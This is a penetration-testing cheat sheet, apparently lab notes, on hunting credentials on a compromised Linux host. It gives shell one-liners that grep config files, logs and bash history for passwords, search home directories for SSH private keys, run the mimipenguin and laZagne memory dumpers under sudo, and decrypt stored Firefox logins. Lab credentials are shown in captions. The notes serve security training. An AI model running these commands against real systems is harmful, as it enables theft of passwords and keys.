 # Credentail Hunting

## **Files**

### **Credentials in Configuration Files**

```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### **Databases**

```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### **Notes**

```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

> Notes is chalenging to find due to the name of the file could be anything and might not have an extension. We can scan for all of those file and look at the file names manually

### **Scripts**

```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### **Cronjobs**

```shell-session
cat /etc/crontab
```

```shell-session
ls -la /etc/cron.*/
```

### **SSH Keys**

#### **SSH Private Keys**

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

#### **SSH Public Keys**

```bash
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### **Bash History**

```shell-session
tail -n5 /home/*/.bash*
```

### **Logs**

```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## **Memory**

### **Mimipenguin**

```shell-session
sudo python3 mimipenguin.py
#or
sudo bash mimipenguin.sh 
```

### laZagne

To run the python package of laZagne.py you have to move the entire directory of the linux package from the github since it has all the dependencies.

```shell-session
sudo python3 laZagne.py all
```

### **Firefox Stored Credentials**

```shell-session
ls -l .mozilla/firefox/ | grep default 
```

```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#### **Decrypting Firefox Credentials**

```shell-session
python3 firefox_decrypt.py
```

## Assessment

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>kira:L0vey0u1!</p></figcaption></figure>

Running lazagne.py will give us the following

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>TUqr7QfLTLhruhVbCP</p></figcaption></figure>

